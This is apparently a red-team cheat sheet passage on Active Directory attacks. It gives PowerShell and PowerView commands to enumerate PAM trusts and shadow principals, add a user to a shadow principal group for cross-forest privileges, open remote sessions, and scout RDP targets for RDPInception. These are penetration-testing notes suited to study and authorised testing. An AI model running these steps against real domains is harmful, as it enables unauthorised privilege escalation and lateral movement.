 ````
- A trust attribute of ```1096``` is for PAM ```(0x00000400)``` + External Trust ```(0x00000040)``` + Forest Transitive ```(0x00000008)```.
```
Get-ADTrust -Filter {(ForestTransitive -eq $True)}
```
 
### Abuse PAM trusts
- To abuse the PAM trust we must compromise users or groups who are part of the shadow security principals

### Enumerate shadow principals
- ```Name``` = name of the shadow principals
- ```member``` = members of the bastion forest which are mapped to the shadow principals (if empty add user to it)
- ```msDS-ShadowPrincipalSid``` = SID of the principal (user or group) in the user/production forest whose privileges are assigned to the shadow security principal.
```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```
 
#### Add member to shadow principal group
```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | Select-Object name, DistinguishedName
Get-AdUser <USER> | Select-Object samaccountname, DistinguishedName
Set-ADObject -Identity "<DistinguishedName SHADOW>" -Add @{'member'="<DistinguishedName USER>"}

Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```

#### Pssession to the other forest machine
- Note if Kerberos AES encryption is not enabled for the trust, we need to modify the WSMan TrustedHosts property and use Negotiate authentication for PSRemoting. ```-Authentication NegotiateWithImplicitCredential```
```
Enter-PSSession <FQDN> 
Enter-PSSession <FQDN> -Authentication NegotiateWithImplicitCredential
```
 
## RDPInception
#### Get foreign groups
```
Get-DomainForeignGroupMember -Domain <DOMAIN>
```
 
#### Check local groups on machines
- Run as DA!
```
Get-DomainGPOUserLocalGroupMapping -Identity "<GROUP>" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName
```
 
#### Check logon sessions on the host
```
net logons
```

#### Check network connections and processes
```
netstat -anop tcp | findstr 3389
ps
```

````